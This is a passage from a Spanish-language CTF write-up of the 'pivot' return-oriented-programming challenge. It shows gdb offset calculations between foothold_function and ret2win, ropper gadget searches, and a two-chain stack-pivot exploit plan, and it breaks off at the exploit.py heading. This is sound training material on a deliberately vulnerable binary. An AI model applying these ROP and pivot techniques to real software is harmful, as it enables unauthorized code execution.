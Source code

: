 Ahora tenemos que escribir la primera cadena que salte a la funcióm ret2win, pero esta se importa de "libpivot.so" asi que no conocemos su dirección. Sin embargo podemos calcular su distancia a la función foothold_function que también se encuentra en la misma librería que ret2win:

```
$ gdb -q pivot

gef➤  entry-break

gef➤  x foothold_function
0x7ffff7dc896a <foothold_function>:     0xe5894855

gef➤  x ret2win
0x7ffff7dc8a81 <ret2win>:       0xe5894855

gef➤  pi hex(0x7ffff7dc8a81 - 0x7ffff7dc896a)
'0x117'
```

Ahora solo falta calcular la dirección de foothold_function, para ello llamaremos a la función para poblar la tabla .got.plt y sacaremos de ahí su dirección real. Entonces ya podremos sumar la distancia entre foothold_function y ret2win y saltar a esa dirección. Buscamos los gadgets necesarios:

```
$ ropper --file pivot --console

(pivot/ELF/x86_64)> search mov rax
0x00000000004009c0: mov rax, qword ptr [rax]; ret;

(pivot/ELF/x86_64)> search pop rbp
0x00000000004007c8: pop rbp; ret;

(pivot/ELF/x86_64)> search add rax
0x00000000004009c4: add rax, rbp; ret;

(pivot/ELF/x86_64)> search call rax
0x00000000004006b0: call rax;
```

### Escribir el exploit

El exploit tiene dos cadenas.

Cadena_1:
1. Llama a foothold_function para poblar la tabla .got.plt
2. Guarda en RAX el valor de foothold_function@got
3. Suma a RAX la distancia de foothold_function a ret2win
4. Salta a RAX

Cadena_2:
1. Guarda en RAX la dirección donde se guardó la cadena 1
2. Intercambia RAX y RSP

**exploit.py**
